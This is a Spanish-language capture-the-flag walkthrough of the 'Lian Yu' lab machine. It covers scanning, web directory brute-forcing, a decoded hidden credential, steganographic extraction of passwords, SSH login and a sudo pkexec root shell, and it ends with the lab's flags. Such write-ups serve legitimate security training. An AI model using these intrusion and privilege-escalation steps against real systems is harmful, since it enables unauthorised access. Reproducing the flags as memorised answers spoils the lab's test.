# Write-up Lian Yu

## Enumeración

### Escaneo inicial

Empiezo con un escaneo rápido para identificar los puertos abiertos:

`nmap -T4 IP`

Puertos encontrados:

- 21/tcp FTP
- 22/tcp SSH
- 80/tcp HTTP
- 111/tcp RPCBind

Después lanzo un escaneo más completo sobre los puertos encontrados:

`nmap -T4 -sC -sV -O -p 21,22,80,111 IP`



### Enumeración web

Uso `gobuster` para buscar directorios y archivos interesantes en el servicio web:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x php,html,txt`

Directorio encontrado:

- `/island`



Vuelvo a enumerar dentro del directorio descubierto:

`gobuster dir -u http://IP/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x php,html,txt`

Resultados encontrados:

- `/index.html`
- `/2100`

Al acceder a `http://IP/island` encuentro una palabra oculta:

`vigilante`

También aparece una referencia a `Lian_Yu`.



En `http://IP/island/2100` aparece otra pista que indica que podemos conseguir un `.ticket`. Por eso repito la enumeración añadiendo la extensión `.ticket`:

`gobuster dir -u http://IP/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x .ticket`

Archivo encontrado:

- `/green_arrow.ticket`



Al acceder al ticket encuentro el siguiente token:

`RTy8yhBQdscX`



Lo pruebo en CyberChef y, tras revisar varios formatos, identifico que está codificado en Base58. El resultado es:

`!#th3h00d`



Con esto tengo unas posibles credenciales:

- Usuario: `vigilante`
- Password: `!#th3h00d`

## Acceso por FTP

Primero pruebo las credenciales por SSH, pero no funcionan. Después las pruebo por FTP:

`ftp vigilante@IP`

Password:

`!#th3h00d`

Consigo conectarme correctamente.



Dentro del FTP descargo los archivos disponibles. Los más interesantes son imágenes:

- `Leave_me_alone.png`
- `Queen's_Gambit.png`
- `aa.jpg`

Durante la exploración del FTP encuentro también un posible usuario:

`slade`

Intento acceder a su directorio, pero el servidor devuelve un error `550`.



## Esteganografía

### Corrección de la imagen PNG

Analizo los magic numbers de `Leave_me_alone.png` con `xxd` y veo que no corresponden al formato PNG.



Corrijo la cabecera de la imagen con:

`https://hexed.it`



Al exportar y abrir la imagen corregida aparece una contraseña:

`password`

También se podría hacer la corrección con un `hexeditor`.



### Extracción con steghide

La siguiente imagen interesante es:

`aa.jpg`

Compruebo si contiene información oculta con `steghide` usando la contraseña encontrada:

`steghide info aa.jpg -p password`

`steghide` muestra que hay un archivo oculto:

`ss.zip`



Extraigo el contenido:

`steghide extract -sf aa.jpg`

Dentro aparecen estos datos interesantes:

- `Oliver`
- `M3tahuman`



`Oliver` no parece útil en este punto, pero `M3tahuman` encaja como posible contraseña.

## Acceso por SSH

Pruebo el usuario descubierto durante la exploración del FTP:

`slade`

Me conecto por SSH:

`ssh slade@IP`

Password:

`M3tahuman`

La conexión funciona correctamente.



## Escalada de privilegios

Compruebo los permisos de `sudo` del usuario:

`sudo -l`



El usuario puede ejecutar como `root`:

`/usr/bin/pkexec`

Reviso GTFOBins y veo que puedo usar `pkexec` para lanzar una shell como `root`:

`sudo pkexec /bin/sh`

Ejecuto el comando en la máquina víctima y consigo una shell como `root`.



## Resultado

Consigo acceso inicial al FTP con las credenciales obtenidas desde el ticket oculto en la web. Después extraigo información oculta de las imágenes descargadas y consigo credenciales válidas para SSH como `slade`. Finalmente escalo privilegios a `root` aprovechando el permiso de `sudo` sobre `pkexec`.

Flags:

- User: `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`
- Root: `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`

## Resumen de comandos hasta root

- `nmap -T4 IP`
- `nmap -T4 -sC -sV -O -p 21,22,80,111 IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x php,html,txt`
- `gobuster dir -u http://IP/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x php,html,txt`
- `gobuster dir -u http://IP/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 25 -x .ticket`
- Decodificar `RTy8yhBQdscX` como Base58
- `ftp vigilante@IP`
- Descargar las imágenes del FTP
- Corregir los magic numbers de `Leave_me_alone.png`
- `steghide info aa.jpg -p password`
- `steghide extract -sf aa.jpg`
- `ssh slade@IP`
- `sudo -l`
- `sudo pkexec /bin/sh`
